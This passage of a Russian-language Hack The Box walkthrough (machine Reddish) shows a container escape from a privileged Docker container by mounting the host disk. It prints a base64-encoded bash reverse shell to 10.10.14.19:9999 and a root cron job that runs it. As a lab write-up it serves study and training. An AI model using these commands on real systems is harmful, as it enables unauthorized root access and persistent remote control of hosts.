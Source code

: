 В директории `/dev` оставлен доступ ко всем накопителям хостовой ОС. Это означает, что на Reddish этот контейнер был запущен с флагом [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities). Это наделяет докер-процесс практически всеми полномочиями, которые есть у основного хоста.

Интересная презентация по аудиту докер-контейнеров: [Hacking Docker the Easy way](https://www.slideshare.net/BorgHan/hacking-docker-the-easy-way).

Если мы смонтируем, к примеру, `/dev/sda1`, то сможем совершить побег в файловую систему Reddish.

![backup-mount-sda1.png](/assets/images/htb/machines/reddish/backup-mount-sda1.png)
{:.center-image}

Шелл можно получить тем же способом, каким мы попали в контейнер `backup`: создадим cronjob и дропнем его в `/dev/sda1/etc/cron.d/`.

```
root@backup:/tmp/sda1/etc/cron.d# echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS85OTk5IDA+JjEnCg==' | base64 -d > /tmp/sda1/tmp/shell.sh
root@backup:/tmp/sda1/etc/cron.d# cat ../../tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/10.10.14.19/9999 0>&1'
root@backup:/tmp/sda1/etc/cron.d# echo '* * * * * root bash /tmp/shell.sh' > shell
```

